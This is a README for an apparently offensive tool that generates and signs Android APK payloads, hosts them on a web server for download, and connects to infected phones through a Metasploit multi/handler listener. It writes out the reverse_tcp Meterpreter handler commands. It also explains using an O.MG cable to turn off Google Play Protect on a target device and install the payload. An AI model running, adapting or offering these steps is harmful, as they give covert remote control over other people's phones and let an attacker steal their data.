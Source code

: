 # Requirements

Firstly, for the Requirements we need the following
- Ubuntu OS over a server
- Steady internet

# Installation

Run the following commands

```bash
sudo bash install.sh
```

and 

```python
pip3 install -r requirements.txt
```

# How to run

`python3 main.py`

# Guilines on How to use

- `First`: The options must be selected and must be in an order for example for a payload to be signed it must be first be generated.
- `Second`: While generating the payload make sure that the .apk extention is written.
- `Third`: Once payload signing process starts **read and follow each instruction carefully** and at the end when you see a prompt `[no]` enter `yes` and press enter.
- `Fourth`: The listener option or the listener you are using to connect with the effected system will need a few manual inputs from your end. `Enter in the msfconsole` They are:

```bash
use use exploit/multi/handler
set payload payload/android/meterpreter/reverse_tcp
set lhost <<ip>>
set lport <<port>>
run
```
Just copy paste them one by one

# File locations
- The signed files will be located in the `signed_files` directory
- The keyfile and the payload file will be located in `payload_files` directory

# Hosting

I suggest you have a web-hosting on servers like `Linode` or `AWS` so that the hosting process is easy.
The payload files will be hosted on the apache server and you just need to enter the `http://<IP>/<apk_name>` to start the download.
The OMG cable must first disable the Google play protect for this to be successful.

`Point to remember`: all the packages needed are installed by the installer script and no manual installations are needed.

# OMG cable

The OMG cable has its own scripting and the guild will be provided on the time of buying and these are the things that must be taken care using the OMG cable
- Disable Google Play Protect
- Install the file

The scripting language has its own methods of doing this and this is the path to diable google play protect.
```
Settings >> Google >> Security >> Google Play Protect >> Tap on Cog-wheel >> Select Scan apps with Play Protect to turn it off
```